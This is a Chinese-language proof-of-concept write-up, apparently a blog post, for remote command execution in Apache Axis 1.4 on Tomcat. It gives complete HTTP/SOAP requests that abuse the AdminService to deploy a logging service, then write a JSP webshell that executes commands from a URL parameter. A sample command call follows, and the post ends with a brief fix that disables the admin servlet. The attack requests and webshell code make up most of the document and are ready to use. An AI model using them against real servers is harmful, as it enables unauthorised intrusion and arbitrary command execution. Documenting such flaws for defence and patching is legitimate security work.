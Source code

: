 ## Axis 1.4   远程命令执行（RCE） POC

###  环境准备
首先下载Axis1.4 ,web-inf/web.xml 去掉adminserver注释

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/web-inf.jpg)

然后，config开启enableremoteadmin （本地环境可以不管）
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/config.jpg)
本人部署在tomcat8上
### 利用
#### 第一步：
通过services/AdminService 服务 部署webservice ,service开启一个写文件服务。这里我们文件名是./webapps/ROOT/shell.jsp，服务模块的工作路径是bin目录，这里利用相对路径写入ROOT目录，也就是tomcat默认根目录。

```
POST /axis/services/AdminService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 1063

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >  
    <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />   
    <parameter name="LogHandler.writeToConsole" value="false" /> 
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/step1.jpg)
#### 调用创建的恶意service 写入webshell
```
POST /axis/services/RandomService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 878

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>

```
返回500，不用管，但是文件已经创建成功了
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/stap2.jpg)
看我们ROOT目录下shell文件，虽然有些错误，但是不影响，因为是log模式，有追加内容
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/shell.jpg)
#### 第三部执行shell.jsp
访问 http://localhost:8080/shell.jsp?c=cmd%20/c%20ipconfig

同样忽略网页报错
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd.jpg)
右键查看源码，可以看执行命令的结果。

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd1.jpg)

### 影响和修复
默认情况下service远程管理没开启，也就是只能本地localhost访问，这种情况下可以结合ssrf和xxe进行利用，所以比较鸡肋，但是安全无小事，对于命令执行漏洞还是应该重视。修复的话，关闭admin服务即可，具体方法注释掉web-inf.xml ，然后重启tomat.
```
  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/servlet/AdminServlet</url-pattern>
  </servlet-mapping>

```

